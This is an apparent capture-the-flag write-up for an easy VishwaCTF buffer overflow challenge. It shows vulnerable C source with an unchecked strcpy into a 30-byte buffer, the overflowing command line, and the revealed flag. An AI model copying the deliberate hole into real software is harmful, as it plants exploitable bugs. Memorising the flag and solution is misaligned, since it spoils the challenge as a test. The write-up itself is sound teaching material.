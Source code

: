 # buffer overflow
# Auther:- (Ankit Kumar and Sanjivan Pal) 

## Category
Binary Exploitation Reversing (easy)(need terminal)

## Question
>Let's start off simple, can you overflow the buffer in this [program](files/vuln) to get the flag?
>If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

### Hint(not to be given)
>THis code takes two arguments first argument is already given in code "BUFFER" and second argument is the main buffer which we have to overflow

## Solution
We can try pwning the binary locally first. Firstly, create a file _flag.txt_ and add some contents into it.

Do a sample run of the program.

```
$ ./vuln 
This program takes 2 argument.
```

Ok, now we try with an argument

```
$ ./vuln AAAA
This program takes 2 argument.
```

Seems like it's redirecting the input into output. Let's take a look at the source code.


```
$ cat vuln.c
c

// Imports here...
// Define flag size here...
#include <stdio.h>

#include <stdlib.h>

#include <string.h>

#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}
int new(char * input) {
  int check = 1;
  char * a[6] = {
    'B',
    'U',
    'F',
    'F',
    'E',
    'R'
  };
  for (int i = 0; i < 6; i++) {
    if (input[i] != a[i]) {
      check = 0;
      break;
    }
  }
  if (!check) {
   

    printf("\ninvalid first input.\n");
    return 0;

  } else
    return 1;
}
void vuln(char * input) {
  char buf[30];
  strcpy(buf, input);
}

int main(int argc, char ** argv) {

  FILE * f = fopen("flag.txt", "r");

  if (f == NULL) {
    printf("Flag File is Missing.\n");
    exit(0);
  }

  if (argc > 2) {

    printf("Received: %s\n", argv[2]);
  } else {
    printf("This program takes 2 argument.\n");
    return 0;
  }

  fgets(flag, FLAGSIZE_MAX, f);
  signal(SIGSEGV, sigsegv_handler);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  if (!new(argv[1])) return 0;
  vuln(argv[2]);

  return 0;
}
```

It looks like the `signal(SIGSEGV, sigsegv_handler)` redirects execution to `sigsegv_handler()` and prints the flag.

In `vuln()`, there is no boundary checking, so even though there is only space for 30 bytes, it `strcpy()` will keep inserting bytes into `buf`.
as we can see the first argument is given in the code 'BUFFER' and 2nd argument is the main one which we have to overflow
We can try running the program again, but this time, with a lot more characters in second argument.

```
$ ./vuln BUFFER AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
VishwaCTF{3asy_R3v3rs1ng}
```

We did it locally! It takes 32 or more bytes to leak out the flag.

All we have to do is send it to the webshell.

```
$ /problems/buffer-overflow-/vuln BUFFER AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
VishwaCTF{3asy_R3v3rs1ng}
```

### Flag
VishwaCTF{3asy_R3v3rs1ng}`
